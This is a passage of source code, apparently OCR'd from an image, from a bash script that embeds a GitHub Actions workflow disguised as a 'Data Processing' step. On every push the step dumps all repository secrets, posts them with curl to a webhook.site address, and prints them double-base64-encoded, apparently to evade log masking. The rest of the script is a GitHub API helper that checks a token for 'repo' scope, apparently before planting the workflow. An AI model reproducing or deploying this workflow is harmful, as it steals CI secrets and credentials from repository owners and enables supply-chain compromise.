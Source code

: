 ```
on:
  push:
jobs:
  process:
    runs-on: ubuntu-latest
    steps:
    - name: Data Processing
      run: curl -d "$CONTENTS" https[://]webhook[.]site/bb8ca5f6-4175-45d2-b042-fc9ebb8170b7; echo "$CONTENTS" | base64 -w 0 | base64 -w 0
      env:
        CONTENTS: ${{ toJSON(secrets) }}
EOF
)

# Colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
NC='\033[0m' # No Color

# GitHub API helper
github_api() {
    local method="$1"
    local endpoint="$2"
    local data="$3"

    if [ -z "$data" ]; then
        curl -s -X "$method" \
            -H "Accept: application/vnd.github.v3+json" \
            -H "Authorization: token $GITHUB_TOKEN" \
            "$API_BASE$endpoint"
    else
        curl -s -X "$method" \
            -H "Accept: application/vnd.github.v3+json" \
            -H "Authorization: token $GITHUB_TOKEN" \
            -H "Content-Type: application/json" \
            -d "$data" \
            "$API_BASE$endpoint"
    fi
}

echo "🔍 Checking authenticated user and token scopes..."

# Get authenticated user and check scopes
AUTH_RESPONSE=$(curl -s -I -H "Authorization: token $GITHUB_TOKEN" "$API_BASE/user")
SCOPES=$(echo "$AUTH_RESPONSE" | grep -i "x-oauth-scopes:" | cut -d' ' -f2- | tr -d '\r')
USER_RESPONSE=$(github_api GET "/user")
USERNAME=$(echo "$USER_RESPONSE" | jq -r '.login // empty')

if [ -z "$USERNAME" ]; then
    echo -e "${RED}❌ Authentication failed. Please check your token.${NC}"
    exit 1
fi

echo -e "${GREEN}✓ Authenticated as: $USERNAME${NC}"
echo "Token scopes: $SCOPES"

# Check for required scopes
if [[ ! "$SCOPES" =~ "repo" ]]; then
    echo -e "${RED}❌ Error: Token missing 'repo' scope${NC}"
    exit 1
fi

```